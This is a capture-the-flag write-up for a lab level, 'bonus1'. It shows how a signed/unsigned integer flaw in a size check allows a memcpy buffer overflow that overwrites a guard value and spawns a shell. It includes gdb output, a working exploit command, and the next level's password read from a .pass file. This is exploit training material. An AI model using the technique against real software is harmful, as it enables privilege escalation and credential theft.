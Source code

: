 ## bonus1
The `bonus1` will crash without arguments, so we disassebled the main to see that the program expects two arguments, the first argument will be passed to `atoi(argv[1])`
and the second one to `memcpy()` but before getting there we have some tests to pass, and if we can pass the tests a function for executing the shell will be called.
The first test will be if the number we provide as argument is less or equal to 0x9 <br>`0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9`<br> and this number will be store right after a `buffer[40]` <br>` 0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax` <br>
Next our second parameter will be copied to the *buffer[40]* using the `memcpy()` function, we know this function has no checks, and we will be using it for our exploit. The size passed to `memcpy()` is our first parameter multiplied by 4 and right after the call to `memcpy()` there's a comparison if the number we passed as first argument and a huge number, if they are equal we get the shell, other the program jumps to the end. <br>
`0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46`<br>
Wait but what's the point? first there's a check for number to be less than 10 and then they want it to be = to *0x574f4c46 (1464814662)* ? what the heck.
To get around this we will use `memcpy()` to right enough character to change the value of the number and put this huge value in place *0x574f4c46*.<br>
I can hear you: *Hey, smarty pants! How are you gonna do that if `memcpy()` will copy the number you entered times 4 and you cannot enter a number greater than 9 and the number is 40 bytes above* ?
Me: Hey don't you remember those times working on the *libft* and when you passed a negative number for an unsigned type it will become a huge number, so that's what we are going to do here, let find the *offset* I worte this rudmentary program to help us find a negative number multiplied by 4 that will give what we want
```
#include <stdio.h>
int			main(void) {
	unsigned int n = -2147483638;
	printf("%u\n", n * 4);
	return (0);
}

./a.out
40
```
Lets try with 40
*does work* let's try 44 `-2147483637`
```
(gdb) r -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) i r
eax            0x0	0
ecx            0x41414141	1094795585 <---- look right here 
edx            0xbffff69c	-1073744228
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6b0	0xbffff6b0
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0xb7e454d3	0xb7e454d3 <__libc_start_main+243>
eflags         0x200a02	[ IF OF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Now we just need to change the last for bytes to the huge number like so:
```
./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")

$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
